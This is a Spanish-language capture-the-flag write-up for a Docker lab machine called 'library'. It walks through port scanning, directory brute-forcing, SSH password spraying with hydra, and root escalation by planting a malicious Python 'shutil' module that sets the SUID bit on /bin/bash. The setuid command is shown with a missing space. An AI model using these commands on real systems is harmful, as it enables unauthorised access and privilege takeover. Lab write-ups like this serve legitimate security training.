 ```yaml
---
Maquina: library
SO: Linux
Explotación: Análisis de imágenes y web
Escala_privs: Permisos sudo
Dificultad: Fácil
tags:
  - maquina
  - web_discovery
  - analisis_imagen
  - linux
  - escala_privs
  - ssh
  - web
---
```

## Reconocimiento

1. **Explorar los puerto abiertos del docker**: 

```bash 
nmap -p- --open --min-rate 5000 -sVC -Pn 172.17.0.2
```

![[Pasted image 20241102172908.png]]

2. **Ver la pagina web ubicada en el puerto 80**:

![[Pasted image 20241102173026.png]]

Como se puede apreciar es la página por defecto de apache. Vamos a intentar ver si hay alguna web adicional mediante Gobuster y nos encontramos lo siguiente:

```bash
gobuster dir -u http://172.17.0.2 -w /snap/seclists/current/Discovery/Web-Content/directory-list-2.3-big.txt -x .php,.py,.js,.txt
```

![[Pasted image 20241102173228.png]]

Vemos un código interesante si accedemos al index.php -> JIFGHDS87GYDFIGD

![[Pasted image 20241102173256.png]]

Podría ser muchas cosas... un mensaje cifrado, una passwd... vamos a investigar un poco mas a ver si descubrimos de que se trata.

```bash
hydra -L /snap/seclists/current/Usernames/xato-net-10-million-usernames.txt -p JIFGHDS87GYDFIGD ssh://172.17.0.2
```

Parece que si que era una contraseña de un usuario...

![[Pasted image 20241102191133.png]]

Vamos a intentar iniciar sesión en el SSH yyyyy

![[Pasted image 20241102181854.png]]

Vamos a explorar los permisos y directorios importantes...

```bash
sudo -l
```

![[Pasted image 20241102181946.png]]

Pues vamos a probar a ver si gtfo bins nos da algún consejillo jiji...

![[Pasted image 20241102182242.png]]

ooooooooooo... Carlos como pudiste crearme estas ilusiones :c

Igualmente podemos intentar probar con el código que hay en opr/script.py

```python
import shutil

def copiar_archivo(origen, destino):
    shutil.copy(origen, destino)
    print(f'Archivo copiado de {origen} a {destino}')

if __name__ == '__main__':
    origen = '/opt/script.py'
    destino = '/tmp/script_backup.py'
    copiar_archivo(origen, destino)

```

Como parece que toma la libreria shutil para realizar la opción de copiar podemos generar la nuestra propia en /opt/ y que la ejecute nada más pedirle que realice el script.py. Para ello vamos a crear la siguiente librería en /opt/.

```python
import os
os.system("chmod4777 /bin/bash")
```

Ahora tan solo tenemos que ejecutar el comando en el que tenemos privilegios de root.

```bash
sudo -u root python3 /opt/script.py
```

Y ver si con suerte ha surtido efecto

![[Pasted image 20241102190942.png]]

Parece ser que tenemos vía libre para ejecutar /bin/bash como si fueramos root.

```bash
/bin/bash -p
```

Y sorpresa!

![[Pasted image 20241102191057.png]]
